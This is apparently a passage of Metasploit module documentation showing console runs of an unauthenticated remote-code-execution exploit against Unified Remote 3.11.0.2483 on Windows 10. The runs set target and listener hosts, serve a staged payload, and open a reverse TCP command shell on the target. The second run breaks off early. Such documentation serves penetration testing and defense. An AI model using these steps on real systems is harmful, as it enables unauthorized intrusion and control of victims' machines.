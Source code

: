 ## Scenarios

### Version 3.11.0.2483 on Windows 10, No authentication, visible false

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-ASvxWyO708Rv4x0j
[*] 2.2.2.2:9512 - Retrieving server config
[+] 2.2.2.2:9512 - No security enabled
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Loading Unified.Command
[*] 2.2.2.2:9512 - Updating Unified.Command
[*] 2.2.2.2:9512 - Sending payload
[*] 2.2.2.2:9512 - Executing script
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50052) at 2022-09-18 19:00:33 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\U4culUYTuG.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\ProgramData\Unified Remote\Remotes\Bundled\Unified\Main\Command>
```

### Version 3.11.0.2483 on Windows 10, No authentication, visible true

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-s5IbpVuRf1MJzqRs
```